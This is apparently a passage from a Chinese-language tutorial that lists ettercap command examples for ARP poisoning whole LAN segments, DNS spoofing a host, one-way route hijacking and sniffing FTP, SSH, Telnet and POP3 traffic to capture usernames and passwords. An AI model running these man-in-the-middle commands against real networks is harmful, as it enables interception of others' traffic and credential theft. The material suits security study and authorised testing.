 ### 示例：常用操作写法

> arp 毒化 eth0 所在的网段，安静模式、文本显示
> **命令：\**ettercap -Tqi eth0 -M ARP // //\**** 
>
> 监听 10.0.0.1 的 ftp，ssh，telnet 信息，并保存到本地
> **命令：****ettercap -Tzq /10.0.0.1/21,22,23  -w hack.pcap** 
>
> 对 192.168.1.120 进行 dns 欺骗，使用默认网卡 eth0，文本模式、安静显示 
> **命令：\**ettercap -Tq -P dns_spoof -M arp /192.168.1.120/ //\****
>
> 使用过滤并监听 10.0.0.2 在 80 端口的所有通信，安静模式、文本显示，保存数据到本地  
> **命令：****ettercap -Tqi eth0 -L sniffed_data -F filter.ef -M arp:remote /10.0.0.2/80 //**
>
> 控制台模式下（-T）不使用混杂模式（-p），只显示自己的通信。**命令：****ettercap -Tp**
>
> 只嗅探本机110端口pop3的信息。**命令：****ettercap -Tzq //110**
>
> 在控制台模式下(-T)，不使用 ARP 初始化（-z），不显示数据包内容(-q安静模式)，显示捕捉到的用户名、密码以及其他消息。**命令：****ettercap -Tzq**
>
> 只嗅探本机与192.168.0.11主机在端口21、22、23上的通信。
>
> **命令：****ettercap -Tzq /192.168.0.11/21,22,23**
>
> 在控制台模式下（-T），加载主机列表（-j），对目标执行arp毒化中间人攻击（-M arp）
> **命令：****ettercap -T -j /tmp/victims -M arp /10.0.0.1-7/ /10.0.0.10-20/**
>
> 控制台下对整个局域网执行ARP毒化攻击（-M arp）。**命令：****ettercap -T -M arp // //**
>
> 在控制台模式下（-T），执行 ARP 双向欺骗（-M arp:remote），嗅探网关 192.168.1.1 与 部分主机 192.168.1.2-10 之间相互通信的数据包。
> **命令：****ettercap -T -M arp:remote /192.168.1.1/ /192.168.1.2-10/**
>
> 在控制台模式下（-T），不使用 ARP初始化（-z），使用安静模式（-q），监听所有主机110端口（pop3协议端口）。**命令：****ettercap -Tzq //110**
>
> 在控制台模式下（-T），不进行ARP初始化（-z），使用安静模式（-q），监听目标10.0.0.1的21，22，23端口（FTP、SSH、TELNET）
> **命令：****ettercap -Tzq /10.0.0.1/21,22,23**
>
> 打印输出可用插件列表。**命令：****ettercap -P list**
>
> 在 eth0 网卡上用自己的 filter 嗅探 ip 为 192.168.0.11 主机在 80 端口上的所有通信，并把所有的数据包保存成文件名为 "**sniffed_data**" 的文件。
> **命令：****ettercap -i eth0 -Tq -L sniffed_data -F filter.ef -M arp:remote /192.168.0.11/80 //**
>
> 单向欺骗路由，只劫持路由发向 10.1.1.2 的数据包。
> **命令：****ettercap -i eth0 -Tq -L sniffed_data -F filter.ef -M arp:remote /10.1.1.1/ /10.1.1.2/**



## ettercap filter 的写法

一个好工具配一个好的过滤规则才是perfect！
